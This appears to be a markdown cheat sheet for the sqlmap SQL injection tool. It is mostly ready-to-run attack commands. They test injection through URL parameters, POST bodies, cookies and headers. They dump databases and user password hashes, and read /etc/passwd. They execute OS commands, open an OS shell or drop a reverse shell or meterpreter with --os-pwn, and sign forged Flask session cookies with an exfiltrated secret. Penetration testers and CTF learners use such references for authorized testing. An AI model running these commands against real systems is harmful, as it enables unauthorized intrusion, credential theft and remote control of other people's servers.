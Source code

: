 # SQLmapCheatSheet



## Basic arguments for SQLmap
Generic 
-   -u " < URL > " 
-   -p "<PARAM TO TEST>" 
-   --user-agent=SQLMAP 
-   --random-agent 
-   --threads=10 
-   --risk=3 #MAX
-   --level=5 #MAX
-   --dbms="<KNOWN DB TECH>" 
-   --os="<OS>"
-   --technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
-   --batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
-   --auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
-   --auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
-   --proxy=http://127.0.0.1:8080
-   --union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char

## Retrieve Information
Internal
-   --current-user #Get current user
-   --is-dba #Check if current user is Admin
-   --hostname #Get hostname
-   --users #Get usernames od DB
-   --passwords #Get passwords of users in DB
-   --privileges #Get privileges


## DB data
-   --all #Retrieve everything
-   --dump #Dump DBMS database table entries
-   --dbs #Names of the available databases
-   --tables #Tables of a database ( -D <DB NAME> )
-   --columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-   -D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column


## Injection place
-   From BurpSuite/ZAP capture
-   Capture the request and create a req.txt file!
-   [sqlmap -r req.txt --current-user]

## GET Request Injection
-   sqlmap -u "http://example.com/?id=1" -p id
-   sqlmap -u "http://example.com/?id=*" -p id

## POST Request Injection
-   sqlmap -u "http://example.com" --data "username=*&password=*"

 
## Injections in Headers and other HTTP Methods
# Inside cookie
-   sqlmap  -u "http://example.com" --cookie "mycookies=*"

## Inside some header
-  sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
-  sqlmap -u "http://example.com" --headers="referer:*"

## PUT Method
-  sqlmap --method=PUT -u "http://example.com" --headers="referer:*"
-  <!--The injection is located at the '*'-->





## Indicate string when injection is successful
-  --string="string_showed_when_TRUE" 


## Eval
Sqlmap allows the use of -e or --eval to process each payload before sending it with some python oneliner. This makes very easy and fast to process in custom ways the payload before sending it. In the following example the flask cookie session is signed by flask with the known secret before sending it:
-  sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump



## Shell
# Exec command
-  python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

# Simple Shell
-  python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

# Dropping a reverse-shell / meterpreter
-  python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn



# Read File
-  --file-read=/etc/passwd


## Crawl a website with SQLmap and auto-exploit ->
-  sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

-  --batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
-  --crawl = how deep you want to crawl a site
-  --forms = Parse and test forms


## Second Order Injection
-  python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
-  sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs



## Set a suffix
-  python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "


## Prefix
-  python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "


## Help finding boolean injection
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
-  sqlmap -r r.txt -p id --not-string ridiculous --batch

